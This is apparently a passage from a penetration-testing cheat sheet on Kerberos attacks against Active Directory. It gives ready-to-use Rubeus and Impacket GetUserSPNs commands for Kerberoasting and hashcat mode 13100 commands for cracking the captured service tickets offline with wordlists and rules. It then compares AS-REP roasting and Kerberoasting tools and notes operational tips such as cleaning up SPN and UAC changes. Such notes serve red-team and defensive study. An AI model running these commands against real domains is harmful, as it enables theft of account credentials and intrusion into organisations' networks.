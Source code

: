 ```powershell
.\Rubeus.exe kerberoast /tgtdeleg

# No line wrapping (better for copy/paste)
.\Rubeus.exe kerberoast /nowrap
```

**Linux (Impacket):**
```bash
# Basic enumeration
impacket-GetUserSPNs -dc-ip <dc_ip> <domain>/<username>

# Request all service tickets
impacket-GetUserSPNs -request -dc-ip <dc_ip> <domain>/<username>

# Output to file
impacket-GetUserSPNs -request -outputfile <output_file> -dc-ip <dc_ip> <domain>/<username>

# Target specific SPN
impacket-GetUserSPNs -request -dc-ip <dc_ip> <domain>/<username> -service-name <spn>
```

**Hash Cracking:**
```bash
# Crack TGS-REP hash (mode 13100)
hashcat -m 13100 <hash_file> <wordlist> -r <rules_file> --force

# Standard cracking command
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Attack Method Comparison

| Method | Tool | Platform | Authentication Required | Output Format |
|--------|------|----------|------------------------|---------------|
| **AS-REP Roasting** | impacket-GetNPUsers | Linux | Yes (for enumeration) | Hashcat compatible |
| **AS-REP Roasting** | Rubeus | Windows | Yes (domain context) | Hashcat compatible |
| **Kerberoasting** | impacket-GetUserSPNs | Linux | Yes | Hashcat compatible |
| **Kerberoasting** | Rubeus | Windows | Yes (domain context) | Hashcat compatible |

### Key Insights for Kerberos Attacks

**Attack Effectiveness:**
- AS-REP Roasting targets specific account misconfigurations
- Kerberoasting leverages fundamental Kerberos design characteristics
- Both attacks enable offline password cracking without account lockout risk
- Success depends heavily on password complexity of target accounts

**Operational Considerations:**
- Time synchronization critical for Kerberos-based attacks
- Hash format compatibility essential for successful cracking
- Cleanup operations important for targeted attacks (SPN removal, UAC reset)
- Service account passwords generally weaker than user account passwords
